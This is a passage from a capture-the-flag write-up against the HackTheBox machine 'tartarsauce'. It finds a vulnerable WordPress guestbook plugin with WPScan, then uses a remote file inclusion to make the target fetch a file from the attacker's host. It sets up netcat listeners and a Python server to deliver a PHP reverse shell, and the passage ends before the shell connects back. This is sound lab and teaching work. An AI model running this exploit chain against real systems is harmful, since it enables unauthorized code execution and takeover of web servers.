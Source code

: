 ```bash
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

```

Let’s find plugins:

Searching up the vulnerable plugin, we find an exploit with RFI: https://www.exploit-db.com/exploits/38861

Let’s see if it works:

```bash
#First set up listener
nc -lnvp 80
```

Now type the URL:

```bash
http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.7/soemthing

#see request from listener
listening on [any] 80 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.88] 51944
GET /soemthingwp-load.php HTTP/1.0
Host: 10.10.16.7
Connection: close

```

Seems like it can connect to us. Let’s host a php reverse shell and see if it connects back to us. Let’s get download a php reverse shell from pentest monkey: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Now edit the IP and port. After, let’s host a python server, and start a listener:

```bash
python3 -m http.server 80 

#listener
nc -nlvp 4444
```
